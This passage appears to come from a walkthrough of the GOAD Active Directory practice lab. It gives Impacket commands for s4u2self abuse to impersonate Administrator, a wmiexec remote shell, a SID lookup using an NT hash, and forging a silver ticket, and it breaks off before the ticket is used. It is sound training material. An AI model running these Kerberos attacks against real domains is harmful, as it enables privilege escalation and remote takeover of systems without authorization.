#### s4u2self abuse

- s4u2self abuse : we ask for a TGS as the Administrator domain user

```
export KRB5CCNAME=/workspace/acl/kingslanding.ccache
getST.py -self -impersonate "Administrator" -altservice "cifs/kingslanding.sevenkingdoms.local" -k -no-pass -dc-ip 192.168.56.10 "sevenkingdoms.local"/'kingslanding$'
```

- And than we use that ticket to connect as administrator

```bash
export KRB5CCNAME=/workspace/acl/Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
wmiexec.py -k -no-pass sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local
```

![acl_s4u2self_abuse.png](/assets/blog/GOAD/acl_s4u2self_abuse.png)


#### Silver ticket

- Another way to get a shell is by creating a silver ticket :

- Find the domain SID:

```bash
lookupsid.py -hashes ':33a43e326dad53a516dc06393281d2cc' 'sevenkingdoms.local'/'kingslanding$'@kingslanding.sevenkingdoms.local 0
```

![acl_lokupsid.png](/assets/blog/GOAD/acl_lokupsid.png)


- Create the silver ticket:

```bash
ticketer.py -nthash '33a43e326dad53a516dc06393281d2cc' -domain-sid 'S-1-5-21-1409754491-4246775990-3914137275' -domain sevenkingdoms.local -spn cifs/kingslanding.sevenkingdoms.local Administrator
```

- And use it :
